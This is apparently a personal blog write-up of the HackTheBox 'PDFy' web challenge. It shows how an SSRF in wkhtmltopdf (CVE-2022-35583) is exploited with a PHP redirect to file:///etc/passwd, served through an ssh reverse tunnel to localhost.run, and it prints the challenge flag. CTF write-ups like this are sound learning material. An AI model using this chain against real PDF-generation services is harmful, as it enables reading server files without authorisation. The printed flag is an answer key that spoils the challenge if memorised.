 ```yaml
---
layout: post
author: k0d14k
title: HackTheBox - PDFy (web)
---
```


---

Tags: `SSRF`, **`CVE-2022-35583`, `localhost.run`**

---

> Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!
> 

In this HackTheBox challenge, We have a website used to dump a PDF based on an existing website:

![Untitled](Untitled.png)

We know that the flag is in the `/etc/passwd` file and when trying to generate a PDF for Google it works correctly.

Let’s see how the PDF request works:

![Untitled](Untitled%201.png)

The request gets a JSON with `url` as a single field and, if the conversion goes as expected a PDF name is returned. Then the PDF is stored in `/static/pdfs/[file name].pdf`.

After some tests, and get some errors as the following one:

![Untitled](Untitled%202.png)

I was sure about one thing: the PDF is made up using the wkhtmltopdf library.

Searching on Google I noticed that there is a CVE over this library: **[CVE-2022-35583](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/5249)**

Then, looking for a PoC I found this useful guide: **[wkhtmltopdf SSRF](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/).**

```php
<?php
  header("Location: file:///etc/passwd");
?>
```

```php
php -S 0.0.0.0:8081
```

```php
ssh -R 80:localhost:8081 nokey@localhost.run
```

![Untitled](Untitled%203.png)

---

## Flag: HTB{pdF_g3n3r4t1on_g03s_brrr!}